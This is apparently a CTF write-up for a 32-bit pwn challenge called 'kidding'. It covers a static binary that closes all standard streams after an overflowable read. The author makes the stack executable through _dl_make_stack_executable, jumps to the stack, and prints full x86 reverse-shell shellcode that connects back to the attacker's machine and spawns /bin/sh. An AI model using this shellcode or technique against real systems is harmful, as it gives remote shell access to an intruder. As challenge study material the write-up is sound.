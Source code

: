 # kidding

The challenge gives us a file without libc

Running it

![](https://hackmd.io/_uploads/H1xv4I0qn.png)

The program gets an input then ends

Debuging with gdb

`main`

```
Dump of assembler code for function main:
   0x0804887c <+0>:     push   ebp
   0x0804887d <+1>:     mov    ebp,esp
   0x0804887f <+3>:     sub    esp,0x8
   0x08048882 <+6>:     push   0x64
   0x08048884 <+8>:     lea    eax,[ebp-0x8]
   0x08048887 <+11>:    push   eax
   0x08048888 <+12>:    push   0x0
   0x0804888a <+14>:    call   0x806d180 <read>
   0x0804888f <+19>:    add    esp,0xc
   0x08048892 <+22>:    push   0x0
   0x08048894 <+24>:    call   0x806d330 <close>
   0x08048899 <+29>:    add    esp,0x4
   0x0804889c <+32>:    push   0x1
   0x0804889e <+34>:    call   0x806d330 <close>
   0x080488a3 <+39>:    add    esp,0x4
   0x080488a6 <+42>:    push   0x2
   0x080488a8 <+44>:    call   0x806d330 <close>
   0x080488ad <+49>:    add    esp,0x4
   0x080488b0 <+52>:    mov    eax,0x0
   0x080488b5 <+57>:    leave
   0x080488b6 <+58>:    ret
```

* So it `read` `0x64` bytes from `sdtin`, stores result in `ebp - 0x8` and call `close(stdin)`, `close(stdout)`, `close(stderr)`

Checksec

![](https://hackmd.io/_uploads/rJ9zvS0q2.png)

Check for process mapping then i see that it doesn't use libc

![](https://hackmd.io/_uploads/rkxvELCqh.png)


* Then decompile the program with `ida` i see that many functions in libc is in the program. In other word, this program is a libc. But it doesn't have some functions tho
* Since it `close` all standard file stream, we can't interact with it even if we can get a shell. So the idea is using `reverse-shell`
* So i write `reverse-shell shellcode` to stack then executes it

## Make stack executable

Basically the first thing i have to do is making the stack executable

* First i tried to use `mprotect` syscall but it didn't work, then i figured out that the address passed to that has to be `AND` with `0xfffff000`. Even i can make the address align like that but it takes too many gadgets
* Then i found out there's a function that make stack executable for me. It's call `_dl_make_stack_executable`.

```cpp=
unsigned int __usercall dl_make_stack_executable@<eax>(_DWORD *a1@<eax>)
{
  unsigned int result; // eax

  if ( *a1 != _libc_stack_end )
    return 1;
  result = mprotect(*a1 & -dl_pagesize, dl_pagesize);
  if ( result )
    return *(_DWORD *)(__readgsdword(0) - 24);
  *a1 = 0;
  dl_stack_flags |= 1u;
  return result;
}
```

* To make it work, the argument must be `_libc_stack_end`, then it call `mprotect` with `prot` is stored in a global variable called `__stack_prot`. First `__stack_prot` contain `0x100000`

![](https://hackmd.io/_uploads/r1lvEI09n.png)

* So i have to change it to `0x7` (PROT_READ | PROT_WRITE | PROT_EXEC)

```cpp=
#define	PROT_READ	 0x04	/* Pages can be read.  */
#define	PROT_WRITE	 0x02	/* Pages can be written.  */
#define	PROT_EXEC	 0x01	/* Pages can be executed.  */
```

So after making stack executable, i use `jmp esp` to jump to my `reverse-shell shellcode`

## Reverse-shell

You can see [this](https://smarinovic.github.io/posts/Reverse-shell/) for more infomations about `reverse-shell`

* Some syscall i use to create a `reverse-shell`. See [here](https://chromium.googlesource.com/chromiumos/docs/+/master/constants/syscalls.md#x86-32_bit) for syscall number
```
execve   0xb         //to execute('/bin/sh')
socket   0x167       //to create socket
connect  0x16a       //to connect to our machine
dup2     0x3f        //redirect file stream to socket  
```
* First i wonder if i can use `dup2` with a closed file stream. Reading document for `dup2`

>If the file descriptor newfd was previously open, it is closed
       before being reused; the close is performed silently (i.e., any
       errors during the close are not reported by dup2()).

* `dup2` will `close` the file stream anyway so it's okay

* So my `revese-shell` will be like this after trying to minimize the size

```

//socket(AF_INET, SOCK_STREAM, 0)
push 2
pop ebx                ;ebx = AF_INET for ipv4
push 1
pop ecx                ;ecx = SOCK_STREAM for tcp protocol
push eax
pop edx                ;edx = 0 for ip protocol
mov ax, 0x167 
int 0x80

//eax is now socket file descriptor

//connect(socket, struct sockaddr_in, len)                 
mov edi, eax          ;store the socket in edi to reuse
//create struct on stack
push ebp              ;ip address 
push  {}0002          ;port and AF_INET
mov ecx, esp          ;sockaddr struct
mov ebx, edi          ;ebx = socket
mov dl, 0x10          ;size of (struct sockaddr_in)
mov ax, 0x16a
int 0x80


//dup2(socket, stdin)
mov al, 0x3f
xor ecx, ecx           ;ecx = 0(stdin), ebx is already socket
int 0x80

//dup2(socket, stdout)
mov eax, 0x3f
mov ebx, edi           ;ebx = socket
mov ecx, 1             ;ecx = stdout
int 0x80

//i don't dup2(socket, stderr) here because we don't need it, but it you like you can do it



//execve('/bin/sh')
mov eax, 0xb
push 0x68732f
push 0x6e69622f
mov ebx, esp           ;ebx -> /bin/sh
mov ecx, 0    
mov edx, 0
int 0x80
```


* The problem rises when the payload's length is over `100`. So far to `socket(socket, stdout)` it's okay, i decided to make a `read` syscall after `dup2(socket, stdin)` and continue my shellcode by that `read`
* So in server side it has to send the remained shellcode
* Calculate the distance between `esp` and `eip` to write shellcode at right place

![](https://hackmd.io/_uploads/BJxw4U0cn.png)

* So my payload will be like

```python=
b'A'*0x3c + shell
```

Running it

![](https://hackmd.io/_uploads/r1ew4L0c3.png)

Success get a shell in the program

Checking in server side

![](https://hackmd.io/_uploads/HyevN8A93.png)

It works but i don't have any server to check if my solution is true. 
